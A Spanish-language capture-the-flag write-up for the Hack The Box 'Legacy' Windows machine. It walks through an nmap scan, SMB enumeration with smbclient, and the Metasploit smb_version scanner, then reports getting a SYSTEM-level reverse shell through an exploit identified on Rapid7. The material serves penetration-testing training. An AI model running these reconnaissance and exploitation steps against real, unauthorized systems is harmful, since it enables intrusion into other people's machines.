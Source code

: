 # 1 - Legacy \(win\_easy\)

Comenzaremos lanzandole un **nmap** a la maquina

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28455%29.png)

Vemos **139 y 445** relacionados con SMB -&gt; SAMBA file share.

![](../../.gitbook/assets/imagen%20%28457%29.png)

Es algo a destacar en los reportes, puede dar acceso a alguna shell.

Vamos a atacar SMB porque es lo abierto.

## Usando smb client de kali

```text
smbclient -L \\10.10.10.4\
```

Aca nos pide la contra de root pero fue un buen intento, otra posible a intentar

```text
smbclient -L \\\\10.10.10.4\\
smbclient -L \\\\10.10.10.4\\$ADMIN
```

No hubo suerte, entremos a **metasploit**

```bash
msfconsole
> search smb_version
//Aca salen los buscadores auxiliares, usamos el siguiente
> use auxiliary/scanner/smb/smb_version
```

Vemos las optiones para ver que solicita

```bash
options
// Como dice RHOSTS podemos atacar una subnet, pero solo estamos contra una maquina
> set rhosts 10.10.10.4
> exploit
```

![](../../.gitbook/assets/imagen%20%28458%29.png)

Buscamos eso en Rapid7 

![Me lo llevo ](../../.gitbook/assets/imagen%20%28456%29.png)

Tiramos **run** y pim pum REVERSE SHELL 

Como estamos en este samba es distinto el shell

```bash
getuid
server username: NT AUTHORITY\SYSTEM    //Basicamente root
```



